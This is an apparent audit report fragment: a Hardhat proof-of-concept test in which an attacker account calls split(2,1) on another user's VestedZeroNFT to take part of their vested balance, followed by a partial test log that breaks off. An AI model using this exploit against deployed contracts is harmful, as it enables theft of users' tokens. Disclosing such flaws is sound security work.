 ```typescript
    
    console.log("The address of the owner of the TokenId: ", lastTokenId, await vest.ownerOf(lastTokenId));
    expect(await vest.ownerOf(lastTokenId)).eq(ant.address);
    
    console.log("Get tokenIdToLockDetails of the lastTokenId");
    let tokenIdToLockDetails = await vest.tokenIdToLockDetails(lastTokenId);
    console.log("tokenIdToLockDetails: ", tokenIdToLockDetails); 
    
    /*-------------------------------------*/

    console.log("Execute the attack to steal the amount of pending of the VestedZeroNFT to mint a new tokenID for the attacker");
    const [attacker] = await hre.ethers.getSigners();
    console.log("Attacker address: ", attacker.address);

    console.log("Call split to theft the tokenID of Ant");
    console.log("LastTokenId: ", lastTokenId);
   
    await vest.connect(attacker).split(2,1) ;

    tokenIdToLockDetails = await vest.tokenIdToLockDetails(lastTokenId);
    expect(await vest.ownerOf(2)).eq(ant.address);

    console.log("tokenIdToLockDetails: ", tokenIdToLockDetails); 

    lastTokenId = await vest.lastTokenId();
    console.log("The owner address of the lastTokenId: ", await vest.ownerOf(lastTokenId));
    expect(await vest.ownerOf(lastTokenId)).eq(attacker.address);

    console.log("Get tokenIdToLockDetails of the lastTokenId");
    tokenIdToLockDetails = await vest.tokenIdToLockDetails(lastTokenId);
    console.log("tokenIdToLockDetails: ", tokenIdToLockDetails); 

  });
```

In the above POC, to execute the attack, the hacker call the split function 


```typescript
await vest.connect(attacker).split(2,1) ;
```



Test log:  
Full Test Log:  https://drive.google.com/file/d/1uQI10CD-J9HB4KweMPAlMUj19OEzadk0/view?usp=sharing

```
Create the pre-condition setup for attack: User Ant has 1 VestedZeroNFT
The address of the owner of the lastTokenId:  0x9E545E3C0baAB3E08CdfD552C960A1050f373042
The address of StakingBonus contract:  0x9E545E3C0baAB3E08CdfD552C960A1050f373042
Mint a VestedZeroNFT for Ant by calling mint() function of VestedZeroNFT contract
Zero balance of Ant 0n
Zero balance of vestZeroNFT contract 10000000000000000000000n
Ant address:  0x70997970C51812dc3A010C7d01b50e0d17dc79C8
The address of the owner of the TokenId:  2n 0x70997970C51812dc3A010C7d01b50e0d17dc79C8
Get tokenIdToLockDetails of the lastTokenId
tokenIdToLockDetails:  Result(10) [
  0n,
  1710065933n,
  0n,
  10000000000000000000000n,
  0n,
  0n,
  1000n,
```